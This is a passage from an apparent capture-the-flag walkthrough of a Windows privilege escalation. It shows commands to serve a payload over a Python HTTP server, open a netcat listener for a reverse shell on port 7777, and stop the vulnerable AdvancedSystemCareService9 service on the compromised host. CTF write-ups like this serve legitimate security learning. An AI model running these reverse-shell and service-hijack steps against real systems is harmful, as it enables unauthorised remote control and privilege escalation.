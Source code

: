 ```bash
abhinav@ETHICALHACKX:~/ctf/thm$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


```

Step 7 - Create another netcat listner on port (7777) specified in payload in last step

```bash
abhinav@ETHICALHACKX:~/ctf/thm$ nc -nlvp 7777
listening on [any] 7777 ...
```

Step 8 - Stop the Service  - AdvancedSystemCareService9

```bash
C:\Users\bill\Desktop>sc query
sc query AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
DISPLAY_NAME: Advanced SystemCare Service 9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\bill\Desktop>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0


C:\Users\bill\Desktop>sc query AdvancedSystemCareService9
sc query AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0


```
